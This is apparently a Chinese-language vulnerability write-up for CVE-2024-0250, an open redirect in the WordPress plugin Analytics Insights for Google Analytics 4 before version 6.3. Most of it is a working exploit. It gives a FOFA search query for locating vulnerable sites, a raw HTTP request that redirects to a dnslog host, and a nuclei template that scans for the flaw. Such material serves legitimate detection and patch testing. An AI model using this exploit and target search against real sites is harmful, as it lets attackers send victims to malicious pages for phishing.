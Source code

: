 **漏洞名称**

Google Analytics开放重定向漏洞

**漏洞影响**

Google Analytics 4 < 6.3 

**漏洞描述**

由于重定向oauth2callback.php文件验证不足，该插件易受Open Redirect攻击。这使得未经身份验证的攻击者有可能将用户重定向到潜在的恶意网站，如果他们能够成功地诱骗用户执行操作的话。

**FOFA搜索语句**

body="/wp-content/plugins/analytics-insights"

**漏洞复现**

可以结合dnslog来复现该漏洞，先随机注册一个dnslog账户https://eyes.sh/dns/ ，然后复制payload到poc数据包中，完整数据包如下：

```yaml
GET /wp-content/plugins/analytics-insights/tools/oauth2callback.php?state=https://ai8akwkt.eyes.sh/%3f&code=x HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.1.2 Safari/605.6.26
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip
```

**nuclei poc**

```yaml

id: CVE-2024-0250

info:
  name: Analytics Insights for Google Analytics 4 < 6.3 - Open Redirect
  author: securityforeveryone
  severity: medium
  description: |
    The plugin is vulnerable to Open Redirect due to insufficient validation on the redirect oauth2callback.php file. This makes it possible for unauthenticated attackers to redirect users to potentially malicious sites if they can successfully trick them into performing an action.
  remediation: |
    Fixed in 6.3
  reference:
    - https://wpscan.com/vulnerability/321b07d1-692f-48e9-a8e5-a15b38efa979/
    - https://github.com/fkie-cad/nvd-json-data-feeds
    - https://nvd.nist.gov/vuln/detail/CVE-2024-0250
  classification:
    epss-score: 0.00043
    epss-percentile: 0.0866
  metadata:
    max-request: 1
    verified: true
    fofa-query: body="/wp-content/plugins/analytics-insights"
    publicwww-query: "/wp-content/plugins/analytics-insights"
  tags: cve,cve2024,wpscan,redirect,wp,wp-plugin,wordpress,analytics-insights

http:
  - method: GET
    path:
      - "{{BaseURL}}/wp-content/plugins/analytics-insights/tools/oauth2callback.php?state=https://oast.me/%3f&code=x"

    matchers:
      - type: regex
        part: header
        regex:
          - '(?m)^(?:Location\s*?:\s*?)(?:https?://|//)?(?:[a-zA-Z0-9\-_\.@]*)oast\.me.*$'
# digest: 4a0a004730450220508ba6949e0997c93c3e04a75108bac0d84fd29cdf91842239f76d788c8d60f9022100bb118773932c0732f921c1e1dca30fa00cf7826b60410268e292e051434a276a:922c64590222798bb761d5b6d8e72950
```

